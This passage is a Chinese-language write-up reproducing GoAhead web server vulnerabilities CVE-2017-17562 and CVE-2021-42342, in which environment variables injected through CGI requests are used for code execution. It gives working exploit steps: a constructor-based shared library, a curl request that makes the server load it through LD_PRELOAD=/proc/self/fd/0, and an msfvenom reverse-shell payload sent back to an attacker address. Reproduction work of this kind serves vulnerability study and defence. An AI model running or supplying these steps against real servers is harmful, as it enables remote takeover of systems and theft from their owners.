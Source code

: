 ## Real World

### GoAhead / CVE-2017-17562

GoAhead:  2.5 ~ 3.6.5

[复现 - vulhub](https://github.com/vulhub/vulhub/blob/master/goahead/CVE-2017-17562/README.zh-cn.md)  |  [REMOTE LD_PRELOAD EXPLOITATION  GoAhead: Make My Day](https://www.elttam.com/blog/goahead/#content)

GoAhead可以运行asp，js和标准的CGI程序，漏洞发生在运行CGI程序时

在收到请求后会从url参数中取出键值对并注册进CGI程序的环境变量，且只过滤了`REMOTE_HOST`和`HTTP_AUTHORIZATION`，而Linux下`LD_`开头的环境变量和动态链接库有关，比如`LD_PRELOAD`指定的动态链接库会自动加载，`LD_LIBRARY_PATH`指定的路径，程序会去其中寻找动态链接库

我们可以指定`LD_PRELOAD=/proc/self/fd/0`，因为`/proc/self/fd/0`是标准输入，而CGI程序中，POST数据流即为标准输入流，我们发送.so给`http://target/cgi-bin/index?LD_PRELOAD=/proc/self/fd/0`，CGI就会加载我们发送的动态链接库，造成RCE

测试一个hello world的.so

```c
#include <unistd.h>

static void before_main(void) __attribute__((constructor));
static void before_main(void){
	write(1, "Hello: World!\n", 14);
}
```

```bash
$ gcc -shared -fPIC hello.c -o hello.so
$ curl -X POST --data-binary @hello.so "url/cgi-bin/index?LD_PRELOAD=/proc/self/fd/0" -i
```

![image-20220322204516436](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20220322204516436.png)

成功作为响应头输出；尝试反弹shell

```bash
$ msfvenom -a x64 --platform Linux -p linux/x64/shell_reverse_tcp lhost=192.168.31.29 lport=8426 -f elf-so -o p.so
```

```bash
$ curl -X POST --data-binary @p.so "http://192.168.31.214:8080/cgi-bin/index?LD_PRELOAD=/proc/self/fd/0" -i
```

![image-20220322213915833](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20220322213915833.png)

### GoAhead / CVE-2021-42342

[复现 - vulhub](https://github.com/vulhub/vulhub/blob/master/goahead/CVE-2021-42342/README.zh-cn.md)  |  [GoAhead环境变量注入复现踩坑记](https://tttang.com/archive/1399/)

新的洞是对之前的一次绕过，补丁对用户传入参数进行了黑名单过滤，`LD_PRELOAD`这类参数不再设置为环境变量，但由于这个限制使用错了函数，导致实际上并没有生效；补丁还将用户传入的参数名前面增加了前缀，导致无法劫持任意环境变量，但这个限制漏掉了multipart的POST包，所以攻击者通过这个方式仍然可以注入任意环境变量
